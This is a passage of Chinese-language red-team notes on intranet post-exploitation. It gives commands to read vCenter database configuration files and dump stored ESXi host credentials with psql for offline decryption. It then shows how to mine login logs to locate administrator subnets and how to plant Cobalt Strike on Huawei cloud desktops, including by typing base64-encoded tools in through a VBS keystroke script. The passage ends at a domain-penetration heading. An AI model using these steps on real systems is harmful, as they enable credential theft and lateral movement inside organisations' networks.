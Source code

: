     
    
    cat /etc/vmware-vpx/vcdb.properties /etc/vmware/service-state/vpxd/vcdb.properties

导出连接数据库  

    
    
    psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc

将password.enc导出到本地，运行脚本解密  

![]()

解出来之后直接登录ex

![]()

![]()

### 查看登录地址

在内网信息收集的时候，尽可能的收集内网的网段信息，如果是一台服务器，必有运维人员上来维护，通过分析登录日志，可以发现运维人员的网段

#### linux

查看登录地址

    
    
    grep 'Accepted' /var/log/secure | awk '{print $11}' | sort | uniq -c | sort -nr

![]()

#### windows

    
    
    SharpEventLog.exe -4624

![]()

### 云桌面

在hw的过程中，发现有些行业喜欢用华为云桌面，由于我们需要在华为云主机上线cs，但是又无法直接复制文件、复制文本等

方法1：

前提条件：云桌面主机和宿主机是互通的

互通情况下可以使用华为云桌面里的主机反向连接宿主机，这样就可以直接通复制文件到华为云桌面上了

方法2：

前提条件：有机会操作目标主机

云桌面主机和宿主机是不互通的，可使用vbs脚本模拟键盘输入，将base64编码后的工具输入到云桌面，在云桌面进行解码

### 域渗透
